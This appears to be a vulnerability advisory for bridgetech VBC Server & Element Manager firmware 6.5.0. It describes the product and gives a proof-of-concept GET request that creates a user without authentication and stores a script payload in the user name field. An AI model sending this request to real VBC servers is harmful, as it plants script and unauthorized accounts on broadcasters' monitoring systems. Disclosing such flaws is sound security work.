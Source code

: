 # bridgetech VBC Server & Element Manager Stored cross-site scripting Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description
The Bridge probes offered in the VBC are VB120, VB220, VB330, VB440, NOMAD, MDC and QTT Manager.

The VBC is structured around the concept of Sites, Users and Nodes. A Site is often a geographical location (Paris) or a logical network demarcation structure (Head-End-Ingest). A User is a user role defined by the admin user and could be anything. Users are given access to Sites. In this manner it is possible to deploy a single VBC instance and have multiple commercially independent entities accessing the same system. Nodes – or probes – are the physical monitoring points in the network and are organized underneath Sites.  

The VBC server may be accessed by several users simultaneously. An administrator manages users and their access rights, and a user can only view information concerning sites that he has access rights to. A user with read-only access can only view alarms whereas a user with read/write access can alter equipment settings at the sites he has access to. 
Centralized server software allowing unified monitoring of all deployed probes. Offers alarm aggregation, trend analysis (via microTimeline™), dashboards, Visio map integration, configuration management, user access control, reporting, and scaling from small to large deployments

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations managing many probes centrally via the VBC server.

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech VBC Server & Element Manager


- **Built Version:** Aug 12 2025 , Jul 1 2025 12:43:42
- **Firmware Version:**  6.5.0-10  , 6.5.0-9  

---

## Vulnerable Endpoints
- `/vbc/core/userSetupDoc/userSetupDoc`  


---

## Attack Type
- **Type:** Stored cross-site scripting  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints

{target}/vbc/core/userSetupDoc/userSetupDoc?UpdateFromDlg=1&addName=test2"<script>alert(1);</script>&addUsergroup=0&addStreamgroup=Default&addAutologin=false&addStream=true&addStack=false&addShowNum=true&addShowIface=false&addPass=test&submitflash=submit


---

